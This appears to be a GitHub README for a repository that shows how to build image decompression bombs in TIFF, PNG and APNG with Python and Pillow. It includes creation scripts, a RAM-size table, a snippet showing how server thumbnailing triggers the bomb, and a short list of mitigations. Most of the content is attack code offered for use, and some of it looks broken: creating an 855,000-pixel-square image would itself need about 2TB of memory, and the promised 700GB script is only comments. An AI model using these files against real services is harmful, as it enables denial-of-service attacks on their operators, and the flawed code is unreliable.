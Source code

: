 
# 🧨 Image Decompression Bombs in Python

This repository demonstrates how to create **image decompression bombs** using Python in formats:
- TIFF
- PNG
- APNG (Animated PNG)

These bombs are designed to be **tiny on disk** but expand to consume **massive RAM** (up to 2TB+) when opened, often causing memory exhaustion or crashes in image-processing systems.

> ⚠️ **For educational and research purposes only!** Do not deploy these files in production or upload to services without explicit permission.

---

## 📦 How It Works

Image formats like PNG and TIFF use lossless compression. You can craft images that look small (e.g., 1MB), but when decompressed occupy hundreds of GBs or more in memory.

### ✅ Strategy:
- Use solid-color pixels (e.g., white)
- Extreme resolution (e.g., 855,000×855,000)
- Save with maximum compression (`compress_level=9`, `tiff_deflate`)
- Optional: Use formats with multiple frames (e.g., APNG)

---

## 🧰 Requirements

Install dependencies:

```bash
pip install pillow apng
```

---

## 💣 Create a 2TB TIFF Bomb

```python
from PIL import Image, TiffImagePlugin

width = height = 855000
img = Image.new('RGB', (width, height), color='white')

img.save(
    'tiff_bomb_2tb.tiff',
    compression='tiff_deflate',
    tiffinfo={TiffImagePlugin.STRIPOFFSETS: (1,)}
)
```

---

## 💣 Create a 2TB PNG Bomb

```python
from PIL import Image

width = height = 855000
img = Image.new('RGB', (width, height), color='white')
img.save('png_bomb_2tb.png', compress_level=9)
```

---

## 🌀 Create an APNG Bomb (Multi-frame)

```python
from apng import APNG
from PIL import Image
import os

frames = 10
width = height = 150000
frame_paths = []

for i in range(frames):
    frame = Image.new('RGB', (width, height), color='white')
    path = f'frame_{i}.png'
    frame.save(path, compress_level=9, optimize=True)
    frame_paths.append(path)

apng = APNG()
for path in frame_paths:
    apng.append_file(path, delay=100)
apng.save("apng_bomb.png")

for path in frame_paths:
    os.remove(path)
```

---

## 🧪 Auto-Decompression (Server-Side Trigger)

Servers that auto-process uploads (e.g., preview thumbnails, resizing) will often **trigger decompression automatically**, leading to crash:

```python
from PIL import Image

img = Image.open("png_bomb_2tb.png")
img.load()
```

---

## 📊 Safe Size Reference Table

| RAM Target | Approx Dimensions | Uncompressed RAM |
|------------|-------------------|------------------|
| 100MB      | 5912 x 5912       | 0.10 GB          |
| 200MB      | 8360 x 8360       | 0.20 GB          |
| 400MB      | 11824 x 11824     | 0.39 GB          |
| 800MB      | 16721 x 16721     | 0.78 GB          |
| 1.6GB      | 23930 x 23930     | 1.60 GB          |
| 3.2GB      | 33839 x 33839     | 3.20 GB          |
| 6.4GB      | 47871 x 47871     | 6.40 GB          |
| 12.8GB     | 67679 x 67679     | 12.80 GB         |
| 25.6GB     | 95700 x 95700     | 25.60 GB         |
| 51.2GB     | 135402 x 135402   | 51.20 GB         |
| 96.0GB     | 180598 x 180598   | 96.00 GB         |
| 1.0TB+     | 605396 x 605396   | ~1.0 TB          |
| 2.0TB+     | 855000 x 855000   | ~2.0 TB          |

---

## 🔒 Mitigation Strategies

- Check resolution: `if img.width * img.height > X`
- Limit file uploads by pixel count
- Open files in sandboxed environments
- Disable thumbnail generation for untrusted images

---

## 🧠 Educational Use Only

These examples are meant to raise awareness of hidden attack vectors in media processing. Use responsibly.

---

## 📄 License

MIT License

# 🧨 APNG Bomb (700GB RAM) - Minimal RAM Strategy

This project demonstrates how to generate a 4–8MB APNG file that consumes **700+ GB RAM** when opened, using chunked creation to avoid memory exhaustion on weak machines.

## ⚠️ Educational Use Only
This is a research and awareness project only. Do not upload these files to public systems.

## 🛠 Requirements

```bash
pip install pillow apng
```

## 📄 Script: create_apng_bomb_700gb.py

```python
# Full script automates creation of 30 frames (90k x 90k) using low RAM
# Saves each frame separately to avoid memory overload
# Merges all into one APNG bomb (apng_bomb_700gb_final.png)
```

## ✅ Final Output
- File size: ~4–8MB
- Memory usage on open: ~700GB+
- Safe to create even with 4GB RAM machine

---

**Brought to you by Pablo Rotem / פבלו רותם**
